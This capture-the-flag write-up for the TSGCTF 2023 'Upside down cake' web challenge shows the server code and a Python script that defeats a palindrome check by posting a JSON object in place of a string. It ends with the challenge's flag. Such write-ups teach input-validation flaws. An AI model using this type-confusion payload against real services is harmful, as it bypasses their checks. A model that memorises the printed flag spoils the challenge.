```yaml
---
title: 2023 TSGCTF - Upside down cake
date: 2023-11-04 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_TSGCTF
  - Web Exploitation
---
```


## Overview

* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

[upside-down_cake.zip](attached/upside-down_cake.zip)

This is ```main.mjs``` file

```mjs
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```mjs
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only strings are allowed?

## Exploitation

We can post an object, or an array. However, arrays won't work here because they fail to meet the length condition. 

We need a data type that doesn't have a length attribute. An object (also known as a map in C++ or a dictionary in Python) fits this requirement.

### Approach 1

With an object, string.length returns undefined, so the condition string.length < 1000 evaluates to true. Pass!

However, there is a problem with the loop: the index ```string.length - i - 1``` is inaccessible.

Slow down a little bit. since ```string.length - i - 1``` equals ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Approach 2

This is an object, so its attributes are accessible by dot operator, too! It tooks me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```